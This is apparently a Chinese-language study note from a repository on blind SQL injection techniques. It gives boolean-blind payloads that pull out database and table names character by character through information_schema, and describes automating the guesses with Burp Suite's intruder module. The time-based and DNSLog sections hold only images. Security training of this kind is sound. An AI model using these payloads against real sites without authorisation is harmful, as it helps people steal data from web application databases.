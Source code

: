 # 无显注入法--无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理:

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)

### 0x03 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)





